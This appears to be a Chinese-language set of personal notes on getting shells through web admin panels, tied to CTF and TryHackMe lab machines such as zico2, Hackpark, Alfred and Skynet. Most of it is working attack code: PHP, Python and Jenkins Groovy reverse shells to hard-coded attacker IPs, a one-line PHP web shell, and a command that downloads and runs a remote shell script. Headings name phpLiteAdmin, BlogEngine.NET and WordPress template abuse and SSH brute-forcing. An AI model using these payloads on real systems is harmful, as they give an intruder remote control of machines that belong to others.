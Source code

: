# 后台getshell

## exp
### phpliteadmin 目录遍历+远程执行getshell  eg:zico2

#### 
```php
<?php $sock=fsockopen("192.168.37.131",1234);exec("/bin/sh -i <&3 >&3 2>&3");?>  //kali txt文本
<?php system("wget kaliip/shell.txt -O /tmp/shell.php; php /tmp/shell.php");?>

```
```python

<?php echo system($_GET["cmd"]); ?> + 远程执行

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.253.166",6666));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

```


### BlogEngine.NET <= 3.3.6 Directory Traversal RCE eg: TryHackMe： Hackpark Room Writeup


### Jenkins”>“脚本控制台” getshell eg ：TryHackMe： Alfred Room Writeup

```sellcode
Thread.start {  
String host="10.0.0.1";  
int port=4242;  
String cmd="cmd.exe";  
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();  
}
```

### cms 远程文件包含  eg： TryHackMe – Skynet Walkthrough
## 代码执行
### php代码执行  TryHackMe: Internal Walkthrough
wordpass 模板可以执行php代码



# 爆破ssh
## TryHackMe： Hackpark Room
